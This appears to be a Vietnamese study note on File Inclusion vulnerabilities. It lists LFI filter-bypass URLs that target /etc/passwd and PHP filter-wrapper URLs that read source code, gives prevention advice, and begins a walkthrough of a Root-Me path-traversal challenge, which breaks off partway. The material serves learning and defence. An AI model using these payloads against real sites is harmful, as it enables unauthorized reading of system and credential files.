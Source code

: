 ### Filter bypass tricks:

https://victim_site/home.php?file=....//....//etc/passwd
https://victim_site/home.php?file=..///////..////..//////etc/passwd
https://victim_site/home.php?file=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd

### Using wrappers:

https://victim_site/home.php?file=php://filter/read=string.rot13/resource=index.php
https://victim_site/home.php?file=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
https://victim_site/home.php?file=php://filter/convert.base64-encode/resource=index.php
https://victim_site/home.php?file=pHp://FilTer/convert.base64-encode/resource=index.php

## Cách phòng chống

Lỗ hổng xảy ra khi việc kiểm tra đầu vào không được chú trọng. Khuyến cáo riêng thì không nên hoặc hạn chế tới mức tối thiểu phải sử dụng các biến từ "User Input" để đưa vào hàm include() hay eval(). Trong trường hợp phải sử dụng. với các thông tin được nhập từ bên ngoài, trước khi đưa vào hàm cần được kiểm tra kỹ lưỡng

1. Chỉ chấp nhận kí tự và số cho tên file (A-Z 0-9). Blacklist toàn bộ kí tự đặc biệt không được sử dụng.
2. Giới hạn API cho phép việc include file từ một chỉ mục xác định nhằm tránh directory traversal.
Tấn công File Inclusion có thể nguy hiểm hơn cả SQL Injection do đó thực sự cần thiết phải có những biện pháp khắc phục lỗ hổng này. Kiểm tra dữ liệu đầu vào hợp lý là chìa khóa để giải quyết vấn đề.

## THỰC HÀNH:
### Local File Inclusion
khi vào website của challenge thì thấy có rất nhiều file
![](https://hackmd.io/_uploads/ByRnA7ZB2.png)
mỗi file lại đi với một URL tương ứng
URL file index.html: http://challenge01.root-me.org/web-serveur/ch16/?files=sysadm&f=index.html
![](https://hackmd.io/_uploads/ry3myEbSh.png)
URL tương ứng: http://challenge01.root-me.org/web-serveur/ch16/?files=esprit&f=artgfx

nhận thấy rằng file ở đây sẽ chỉ định folder và f sẽ chỉ định file hoặc folder con mà ta chọn.
truy cập bằng admin yêu cầu chúng ta login
![](https://hackmd.io/_uploads/HkZj1N-H3.png)
cancel thì ta nhận được dòng text: ![](https://hackmd.io/_uploads/HkVC1E-H3.png)
như vậy ta biết rằng website sử dụng backend PHP
vậy nên em đang muốn tìm được file index.php xem sao, lúc đó web trả về một thông báo lỗi: file_get_contents()
![](https://hackmd.io/_uploads/HkUgrVMrh.png)
sau khi thử fuzzing em nhận thấy rằng web không block `../` vậy nên em thử dùng Path Traversal.
![](https://hackmd.io/_uploads/ByHOoVGr3.png)

vậy là em thấy được các folder cha chứa các folder con chứa các file. Đọc index.php ở đây không có gì đặc biệt cả, vậy nên bây giờ em thử trỏ tới files=../admin để trỏ tới folder admin kia nhằm tìm đọc index.php trong đó. 
![](https://hackmd.io/_uploads/S1PGj4GB2.png)
